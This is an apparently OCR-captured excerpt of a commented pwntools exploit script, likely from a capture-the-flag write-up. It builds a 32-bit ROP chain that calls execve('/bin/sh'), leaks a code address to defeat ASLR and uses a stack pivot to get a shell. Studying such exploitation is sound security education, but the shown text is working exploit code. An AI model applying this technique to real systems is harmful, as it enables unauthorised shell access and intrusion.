 ```
payload = (
    xor_eax + # xor eax, eax; ret;
    inc_eax * 11 + # inc eax; ret;
    pop_ebx + # pop ebx; ret;
    bin_sh +
    pop_ecx_edx + # pop ecx; pop edx; ret;
    p32(0) +
    p32(0) +
    int_80 # int 0x80;
)

# We then input our ROP chain into the first buffer.
p.sendline(payload)

# Extracting the code region leak.
p.recvuntil("At: ")
code_leak = int(p.recvline()[:-1], 0)
log.info("code leak is: {}".format(hex(code_leak)))

# We subtract our calculated offset from the leak to get the code region base address.
code_base = code_leak - 0x725
log.info("code base is: {}".format(hex(code_base)))

# Next, we add our pivot gadget's offset to the code base.
pivot = p32(code_base + 0x00000687)

# Finally we overwrite the return address with our pivot gadget, which will set the
# esp to point to our first buffer containing a ROP chain.
p.sendline(flat({
 32: pivot # add esp, 0xec; add esp, 0x19c; ret;
}))

# Now we have shell access, we can get the flag.
p.interactive()
```
``